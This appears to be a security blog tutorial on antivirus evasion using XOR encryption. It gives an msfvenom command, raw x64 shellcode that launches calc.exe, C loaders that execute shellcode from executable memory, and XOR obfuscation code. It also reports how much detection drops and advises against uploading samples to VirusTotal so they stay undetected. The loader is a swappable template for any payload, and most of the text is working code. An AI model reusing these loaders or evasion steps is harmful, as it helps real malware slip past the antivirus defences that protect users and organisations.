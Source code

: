 ```yaml
---
layout: post
title: Antivirus Evasion: XOR Encryption
subtitle: Is It Still Detectable?
cover-img: /assets/img/evasion/xor/evasion-thumb.png
thumbnail-img: ""
tags: [security]
---
```

Hello Guys, In this tutorial, we will learn to bypass antivirus detection for payload execution. We will be using XOR encryption as an obfuscation technique.

The objective of this tutorial is to bypass maximum antivirus and not create a fully undetectable payload. Rather, we will follow a series of steps to make sure how it can be made FUD.

## What is XOR encryption?

In other encryption techniques, we encrypt the data (plaintext) with a key, and to get the original data back from ciphertext we perform a decryption process. 

But in XOR encryption, we encrypt the plaintext with a key to get ciphertext. The interesting fact is that to get the original data (plaintext) back, we re-encrypt the data with the same key used, i.e., the decryption process is itself encryption.

The below images might help you get an idea of how exactly XOR logic works.

![xor operation](../assets/img/evasion/xor/xor-operation.png)

![xor operation reverse](../assets/img/evasion/xor/xor-operation-reverse.png)

## Detection without XOR

For generating the shell code, we are using msfvenom. Before starting the actual antivirus evasion process using the XOR technique, let's check how many antivirus programs detect the payload without any evasion technique.

The msfvenom command to generate a shellcode that runs calc.exe is as follows:
~~~
msfvenom -p windows/x64/exec CMD=calc.exe -b "x00" -f c --platform Windows
~~~

The above command will generate shell code that executes on the x64 architecture.

The shellcode generated is as follow:
~~~
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd";
~~~

We will use C lang for compiling the shellcode into an executable that can run on the x64 system.

The C lang template is as follows:
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Replace Your Shell Code Here
int main()
{
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
}
~~~

We get the result, the calc.exe does gets executed.

![result without xor](../assets/img/evasion/xor/result-without-xor.png)

The compiled exe gets detected by 13 antivirus engines out of 40. 

![before xor](../assets/img/evasion/xor/before-xor.png)

{: .box-note}
**Note:** Never upload your samples to virustotal, Use [AntiScan](https://antiscan.me/) or [KleenScan](https://www.kleenscan.com/index). 

## Detection with XOR


Let's try XOR encryption to see how many AVs it is able to bypass.

The C Lang template to generate XOR-ed shell code is as follows:
~~~
#include <stdio.h>

unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Place Previous Generated Shell Code Here

int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf); i++)
 {
  printf("\\x%02x",buf[i]^key);
 }
 
}
~~~
You can change the value of the key as per your needs (it can only be a single character).

The XOR-ed shell code is
~~~ 
\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d
~~~

The C lang code to run the XOR-ed shellcode is
~~~
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d"; // XOR-ed shellcode Here
int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf) - 1; i++)
 {
  buf[i] = buf[i]^key;
 }
 
 
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
 
}
~~~
We get the result, the calc.exe does gets executed.

![result with xor](../assets/img/evasion/xor/result-with-xor.png)

Let's check how many antivirus programs detect the encrypted payload using XOR.

![after xor](../assets/img/evasion/xor/after-xor.png)

We were able to reduce the detection rate by almost 50% using a simple technique.

In the coming tutorial, we will explore different evasion techniques to make it FUD.